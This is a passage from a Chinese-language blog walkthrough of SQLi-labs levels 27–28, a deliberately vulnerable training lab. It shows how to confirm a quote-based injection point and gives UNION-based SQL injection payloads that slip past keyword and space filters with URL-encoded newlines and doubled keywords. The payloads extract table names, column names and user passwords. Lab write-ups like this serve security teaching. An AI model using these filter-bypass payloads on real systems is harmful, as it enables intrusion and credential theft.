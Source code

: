 
```bash
2'%0Aand%0A'1'='2
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/87aa904101f76ae35bc8c83d82e6bfa8.png" alt="" style="max-height:190px; box-sizing:content-box;" />


两个假语句都正常返回 说明是字符型 只读取第一个字符

我们看看双引号

```bash
2"%0Aand"1"="2
2"%0Aand"1"="1
```

确定了是

但是这道题目没有报错信息

无法使用报错注入

联合注入即可

```bash
?id= 0"%0AuniUNIONon%0ASELSELECTECT%0A1,database(),3%0Aand"1
 
表名
 
?id= 0"%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(table_name),3%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema=database()%0Aand"1
 
字段
?id=0"%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(column_name),3%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_schema=database()%0Aand%0Atable_name='users'%0Aand"1
 
值
?id=0"%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(id,username,password),3%0Afrom%0Ausers%0Awhere%0Aid=1%0Aand"1
```

## Less-28   过滤union空格select组合

这道题不过滤 union select

只过滤这个组合 union空格select

我们尝试绕过

```bash
uniunion%0aselecton%0aselect
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b72af8022c0fc7743974fec1c76a3512.png" alt="" style="max-height:153px; box-sizing:content-box;" />
